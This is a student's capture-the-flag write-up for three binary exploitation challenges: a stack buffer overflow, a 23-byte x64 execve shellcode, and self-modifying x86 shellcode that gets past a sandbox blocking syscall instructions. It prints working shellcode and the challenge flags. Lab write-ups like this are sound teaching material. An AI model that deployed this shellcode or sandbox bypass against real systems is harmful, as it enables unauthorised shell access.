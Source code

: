# Fouth Assignment



## BOF 101 - Port: (base-port + 2)

I started by running the binary before analyzing the source code, and I was impressed by observing what happens when writing into the buffer and directly seeing the stack in real-time. 

To solve this challenge, it was crucial to discover the offset of the return address of the executed function in this binary. To achieve this, I used the `cyclic` tool from Pwntools. First, I debugged the program execution using GDB: 

```bash
gdb ./bof101_x86
```

Next, I ran the program with a cyclic pattern of 100 bytes as input:

```bash
(gdb) run < <(cyclic 100)
```

The program crashed with a segmentation fault, and the printed output revealed that the saved return address contained part of the cyclic pattern. Using this information, I identified the offset by running:

```bash
cyclic -l <saved_string>
```

This gave me the exact offset to the return address. 

At this point, the goal was to spawn a shell by overwriting the return address. To do this, I created a script where I generate the shellcode using `shellcraft.sh()`and I assembled it with the `asm()` function.


Initially, my shellcode didn’t work. After some testing, I discovered that the program required the leaked address from its output. Additionally, the exploit didn’t work reliably until I included a NOP sled after the offset to ensure the shellcode was executed correctly. 

The final payload formula to successfully spawn the shell was:

```
OFFSET + leaked_address + 50 NOPs + shellcode
```

By using this approach, I was able to gain shell access and retrieve the flag.



![flag1](screens/bof101_x86_flag.png)



### Smallcode x64 - Port: (*base-port*+3)

The program takes and executes any code input that is less than 25 bytes. To solve this, we need to spawn a shell within these 25 bytes. 

I used the following assembly code, which spawns a shell and has a length of 23 bytes:

```assembly
xor rsi, rsi              ; rsi = 0 (clear the rsi register, this will be NULL, the second argument for execve)
push rsi                   ; push 0 (this is the second argument for execve, which will be NULL, representing environment variables)
mov rdi, 0x68732f2f6e69622f ; rdi = 0x68732f2f6e69622f (this is the string "/bin//sh" in hex format)
push rdi                   ; push the address of "/bin//sh" onto the stack
push rsp                   ; push the address of the stack (the address of "/bin//sh")
pop rdi                    ; pop the address of "/bin//sh" into rdi (this is the first argument for execve)
push 59                    ; push the syscall number 59 (execve syscall number in 64-bit)
pop rax                    ; pop the syscall number into rax
cdq                        ; extend rax to edx (preparing for the syscall, rdx will be used for the parameters)
syscall                    ; invoke the execve syscall (executes /bin/sh with NULL arguments and environment)
```
![flag1](screens/shellcode.png)

I can assemble it and pass to the program.


Finally, I obtained the flag:

```
BASC{0pT1miZin9_5h3llc0d3_iS_n0T_s0_H4rD}
``` 


### No Syscall

Premise: I found this challenge very difficult. The sandbox doesn't accept `syscall`, `sysenter`, or `int 0x80`. Initially, I tried to use jumps to other parts of the code, but since NX (No eXecute) is enabled, that didn't work. Then, I attempted to modify `int 0x80`, but after many attempts, the solution came to me: using self-modifying code. Specifically, I modified run time the byte from `0x7f` to `0x80` (just one byte) to bypass the sandbox and trigger the syscall.

Here is my shellcode for the "No Syscall" challenge:

```asm
_start:
    xor eax, eax                
    push eax                     
    push 0x68732f2f              
    push 0x6e69622f              
    mov ebx, esp                 
    push eax                     
    push ebx                    
    mov ecx, esp                 
    mov al, 0x0b                 

    call get_next_instr        

get_next_instr:
    pop esi                      
    inc byte [esi+5]           
    int 0x7f                    
```

The trick involves discovering the address of the next instruction and modifying it dynamically. Here’s how it works:
The `call get_next_instr` instruction pushes the address of the next instruction (which is `pop esi`) onto the stack. When control returns to the `get_next_instr` function, the first thing it does is pop that address into the `esi` register.
After retrieving the address, I increment the byte at `esi + 5`. This corresponds to the byte `0x7f` in the instruction `int 0x7f`. By incrementing it, I change the byte to `0x80`, which turns `int 0x7f` into `int 0x80`, effectively triggering the syscall.

I injected the shell code and i obtained the flag:
```
BASC{s4ndb0X1n9_AiNt_3a5y}
``` 






